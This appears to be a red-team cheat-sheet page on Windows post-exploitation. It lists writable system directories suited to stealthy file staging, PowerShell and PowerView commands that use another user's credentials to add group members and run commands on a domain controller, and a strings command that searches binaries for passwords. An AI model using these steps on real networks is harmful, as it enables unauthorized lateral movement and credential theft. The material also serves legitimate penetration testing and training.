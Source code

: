 ## Writable Directories

```powershell
C:\Windows\System32\spool\drivers\color
C:\Windows\Tasks
C:\Users\Public # similar to \Temp but more stealthy
C:\Windows\Temp # all users have rwx
C:\Users\<user>\AppData\Local\Temp # similar to above, but user-only
C:\windows\tracing
C:\Windows\Registration\CRMLog
C:\Windows\System32\FxsTmp
C:\Windows\System32\com\dmp
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\PRINTERS
C:\Windows\System32\spool\SERVERS
C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\System32\Tasks_Migrated
C:\Windows\SysWOW64\FxsTmp
C:\Windows\SysWOW64\com\dmp
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
```

Test access:

```powershell
# Move into the target directory
cd C:\Windows\Temp
# Create a file
echo "test" > test
# List the file's contents
type test
```

## Use another user's credentials

{% code overflow="wrap" %}
```powershell
# Create a PSCredential object
$pass = ConvertTo-SecureString '<password>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('<domain\user', $pass)

# Add the target user to the group with PowerView
Add-DomainGroupMember -Identity '<group>' -Members '<user>' -Credential $creds

# Confirm
Get-DomainUser <user> -Credential $cred

# Execute remote commands on another host
Invoke-Command -Computer DC -Credential $cred -ScriptBlock { whoami; hostname }
```
{% endcode %}

## Binaries

We can transfer the binary in a Unix-based attacking host and run `strings` on it:

```bash
# strings with 16-bit encoding for Windows binaries
strings -eb <FILE> | grep pass
```
